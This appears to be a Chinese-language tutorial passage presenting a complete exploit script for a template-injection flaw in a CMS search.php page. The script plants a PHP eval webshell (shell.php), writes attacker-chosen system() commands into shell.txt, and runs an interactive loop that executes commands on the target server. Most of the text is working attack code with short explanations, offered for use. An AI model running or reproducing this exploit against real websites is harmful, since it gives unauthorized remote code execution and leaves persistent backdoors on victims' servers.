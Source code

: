 ```js
#define getshellpayload = searchtype=5&order=%7D%7Bend%20if%7D%7Bif%3A1%29print%5Fr%28%24%5FPOST%5Bfunc%5D%28%24%5FPOST%5Bcmd%5D%29%29%3B%2F%2F%7D%7Bend%20if%7D&func=assert&cmd=fwrite%28fopen%28%22shell.php%22%2C%22w%22%29%2C%27%3C%3Fphp%20%40eval%28fread%28fopen%28%22shell.txt%22%2C%22r%22%29%2Cfilesize%28%22shell.txt%22%29%29%29%3B%20%3F%3E%27%29

function GetShell(url){
	return HttpPost(url."/search.php",getshellpayload,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
}
```

这个就是简单的post请求，将结果数组返回回去，目的是为了判断是否写入了shell.php。

#### 上传shell.txt

```js
#define injectionTxtpayloadqian = searchtype=5&order=%7D%7Bend%20if%7D%7Bif%3A1%29print%5Fr%28%24%5FPOST%5Bfunc%5D%28%24%5FPOST%5Bcmd%5D%29%29%3B%2F%2F%7D%7Bend%20if%7D&func=assert&cmd=fwrite%28fopen%28%22shell.txt%22%2C%22w%22%29%2C%27system%28%22
#define injectionTxtpayloadhou = %22%29%3B%27%29
function injectionTxt(url,cmd){
	return HttpPost(url."/search.php",injectionTxtpayloadqian.URLEncode(cmd).injectionTxtpayloadhou,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
}
```

这个也是同理，post请求，将我们想要之后的cmd拼接进去，然后得到shell.txt

#### 查看结果

```js
function GetRes(url){
	res = HttpGet(url."/shell.php","User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	return res[0];
}
```

请求shell.php，将得到的页面结果返回回去。

#### 执行逻辑

```js
function main(args)
{
	print("请输入要测试的URL:");
	webUrl = input();
	res = GetShell(webUrl);
	if(StrFindStr(res[1],"200 OK",0) == "-1"){
		print("getshell失败");
		return "";
	}
	while(1 == 1){
		print("请输入要执行的命令(输入exit退出)");
		cmd = input();
		if(cmd == "exit"){
			break;
		}
		injectionTxt(webUrl,cmd);
		print(GetRes(webUrl));
	}
	
}
```
